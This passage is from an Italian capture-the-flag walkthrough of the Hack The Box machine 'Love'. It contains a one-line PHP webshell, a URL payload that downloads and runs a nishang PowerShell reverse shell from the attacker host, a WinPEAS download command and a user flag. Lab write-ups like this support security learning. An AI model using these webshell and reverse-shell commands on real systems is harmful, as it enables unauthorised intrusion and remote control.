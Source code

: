 Carico quindi una webshell PHP:

```php
<?php system($_REQUEST['cmd']); ?>
```

Eseguiamo il comando `whoami`:

<p align="center">
  <img src="Images/webshell.png" />
</p>

Abbiamo bisogno di una reverse shell !

## 4 Shell
Per avere la shell utilizziamo la [reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) di [nishang](https://github.com/samratashok/nishang) aggiungendo la seguente riga: `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 9999`

Nell'URL inseriamo il seguente payload: `http://love.htb/images/cmd.php?cmd=Powershell "iex(new-object net.webclient).downloadstring('http://10.10.14.16:1234/Invoke-PowerShellTcp.ps1')"`

In *C:\Users\Phoebe\Desktop* abbiamo la user flag: `d9bbe2cdb572ead40d0c6d507cafb97b`

## 5. Shell as SYSTEM

Carichiamo [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS): `PS C:\ProgramData> powershell wget http://10.10.14.16:3210/winPEASany.exe -outfile wp.exe`

Ci sono varie cose interessanti; prima fra tutti abbiamo una history della PowerShell però non ci da informazioni utili

```shell
[+] PowerShell Settings                                                                                                                                                                                                             
    PowerShell v2 Version: 2.0                                                                                                                                                                                                               
    PowerShell v5 Version: 5.1.19041.1                                                                                                                                                                                                       
    PowerShell Core Version:                                                                                                                                                                                                                 
    Transcription Settings:                                                                                                                                                                                                                  
    Module Logging Settings:                                                                                                                                                                                                                 
    Scriptblock Logging Settings:                                                                                                                                                                                                            
    PS history file: C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt                                                                                                                         
```